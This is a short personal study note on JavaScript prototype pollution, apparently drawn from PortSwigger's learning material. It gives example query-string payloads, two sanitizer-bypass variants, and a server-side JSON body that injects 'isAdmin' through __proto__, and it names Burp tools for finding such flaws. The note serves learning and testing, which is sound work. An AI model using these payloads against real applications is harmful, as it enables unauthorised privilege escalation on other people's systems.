 ```yaml
---
description: >-
  Prototype pollution is a JavaScript vulnerability that enables an attacker to
  add arbitrary properties to global object prototypes, which may then be
  inherited by user-defined objects.
---
```


# Prototype pollution

## This is a Personal document based on the content of PortSwigger

{% embed url="https://portswigger.net/web-security/learning-paths/prototype-pollution" %}

{% code overflow="wrap" %}
```
https[://]example.com/?__proto__[foo]=bar

https[://]example.com/?__proto__.foo=bar
```
{% endcode %}

Burp browser can help find entry point for not needing trial and error to find valid gadgets using the DOM Invader plugin.

***

## Lax Sanitizing Bypass

```
https[://]example.com/?constructor[prototype][foo]=bar
```

## Flawed Sanitizing Bypass

One possibility is that the sanitizer doesn't filter on the input removing the proto until there is no more in the string but instead only removes it once

```
https[://]example.com/?__pro__proto__to__[foo]=bar
```

***

## Server-side Prototype Pollution

When there is a JSON Object being sent to the server via a POST or a PUT, there is a chance to try adding a value to the prototype that will be later reflected in the object server-side:

```json
POST /location HTTP/1.1
headers...

{
    "field1":"value1",
    "field2":"value2",
    "field3":"value3",
    "__proto__": {
        "isAdmin":true
    }
}
```

***

## Server-side Prototype Pollution Scanner

{% embed url="https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8" %}

Burp suite extension.

